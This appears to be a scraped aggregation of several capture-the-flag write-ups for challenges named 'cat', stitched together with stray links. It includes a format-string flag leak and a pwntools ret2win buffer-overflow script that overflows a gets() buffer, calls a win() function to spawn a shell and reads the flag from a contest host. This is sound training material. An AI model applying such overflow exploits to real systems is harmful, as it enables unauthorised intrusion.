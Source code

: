 https://kileak.github.io/ctf/2018/asisquals18-cat/

Original writeup (https://kileak.github.io/ctf/2018/asisquals18-cat/).![image](https://github.com/jeromepalayoor/ctf-archive-
hub/assets/63996033/59e4ee20-8577-44dc-962d-36c0a0d15d77)

Simple format string bug. I tried to extract the flag using `%n$x` where n is
just positive integers. And decode using
[cyberchef](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',4,true)From_Hex('Auto')Remove_null_bytes()&input=ZjdmNDQ1ODBmN2Y0NDAwMGY3ZjY1MmQwMjQzNjI1MDBmNzAwMGE3OGY3ZjQ0M2ZjNjE2YzY2MDM2MTYzN2I2NzY3NWY3Mzc0NjU2ZDVmNmY3ZDc3NmY).

![image](https://github.com/jeromepalayoor/ctf-archive-
hub/assets/63996033/4d655e3e-ba57-4ce4-a25c-c887bec438d5)

At the 14th element, the flag was done.

![image](https://github.com/jeromepalayoor/ctf-archive-
hub/assets/63996033/0d4fa087-a7f9-4913-a065-d92d9f2e6fec)

Flag: `flag{cats_go_meow}`

Original writeup (https://jpalayoor.com/pwn/HSCTF-10.html#cat).# cat - Beginner (50 pts)

## Description  
> meow  
>  
> `nc cat.wolvctf.io 1337`

### Provided files  
c_llenge - 64-bit ELF executable
\[[download](https://ctfnote.shinmai.wtf:31337/files/downloadFile?id=5kXe1neKxOAAjE6)\]  
callenge.c - the source code for the executable
\[[download](https://ctfnote.shinmai.wtf:31337/files/downloadFile?id=WEfUR4fytEbkXgf)\]  
Makefile - Makefile used to build the executable
\[[download](https://ctfnote.shinmai.wtf:31337/files/downloadFile?id=UZu5Vtv4MSILC2I)\]  
Dockerfile - Dockerfile used to host the challenge
\[[download](https://ctfnote.shinmai.wtf:31337/files/downloadFile?id=Enjowhsn8lsh9ZS)\]

## Ideas and observations  
1. based on the source code, the program prints some preamble, uses `gets()` to read user input into a buffer of 128 bytes, prints the buffer out and exits  
2. there's a `win()` function not called in the code that prints a message and spawns a shell with `system()`

## Notes  
1. a ret2win buffer overflow  
2. binary is 64-bit, so stack needs to be 16-byte aligned or `system()` will SEGFAULT

## Solution script  
```python  
from pwn import *

exe = ELF("challenge")  
context.binary = exe

p = process(exe.path)  
p.recvuntil(b"dangerous!\n")  
p.sendline(cyclic(250, n=8))  
p.wait()  
core = p.corefile  
offset = cyclic_find(core.read(core.rsp, 8), n=8)

rop = ROP(exe)  
ret=rop.find_gadget(["ret"])  
rop.raw(offset * b"A")  
rop.call(ret)  
rop.call(exe.symbols.win)

r = remote("cat.wolvctf.io", 1337)  
r.recvuntil(b"dangerous!\n")  
r.sendline(rop.chain())  
r.recv()  
r.sendline(b'cat flag.txt')  
print(r.recvS().strip())  
r.close()  
```

`wctf{d0n+_r0ll_y0ur_0wn_c_:3}`

Original writeup
(https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469#cat---
beginner-50-pts).[Writeup](https://haboob.sa/ctf/nullcon-2019/miscCat.html)

Original writeup (https://haboob.sa/ctf/nullcon-2019/miscCat.html).
